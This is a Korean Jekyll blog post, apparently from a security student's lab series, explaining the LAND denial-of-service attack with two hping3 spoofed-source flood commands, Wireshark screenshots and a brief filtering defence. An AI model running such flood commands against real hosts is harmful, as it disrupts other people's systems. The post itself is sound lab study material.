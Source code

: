 ```yaml
---
layout: post
title: LAND Attack
subtitle: 
gh-repo: nohtaeyoung/nohtaeyoung.github.io
gh-badge: [star, fork, follow]
cover-img: /assets/img/security.jpg
tags: [Network Hacking]
comments: true
---
```


{: .box-note}
<b>블로그 내의 모든 예시와 실습은 VMware workstation16.2.3, Kali Linux 2022.03, RED Hat 0.98 version을 활용 합니다.<br></b>

## Land Attack
- 시스템 리소스 공격 -> 메모리 부하, CPU 부하
- Windows95/XP SP2/Server 2003, Linux 2.0.x Kernel 등의 취약점 -> 현재는 공격되지 않는다.

## 공격 원리
- 연결 요청 메시지의 Source를 공격대상의 주소로 변조하여 공격대상에 응답이 전달되게 한다.
- 다량의 공격 패킷을 전달하여 부하를 유발시키는 공격

## 공격
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] --icmp --flood</b>
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] -s 80 -k -p 80 -S-flood</b>

# 첫 번째 방법으로 공격

## Target IP 확인

![dhcp spoofing1](../assets/img/land/land1.png)

<br>
## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land2.png)

<br>
## kali에서 wire shark 확인

![dhcp spoofing1](../assets/img/land/land3.png)

# 두 번쨰 방법으로 공격

## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land4.png)

<br>
## kali에서 wire shark 확인

![dhcp spoofing1](../assets/img/land/land5.png)

<br>
## 보안
- 패킷의 출발지와 목적지 주소가 같을 경우 필터링하여 차단해야 한다.

<b>공격이 잘 성공했다.</b>
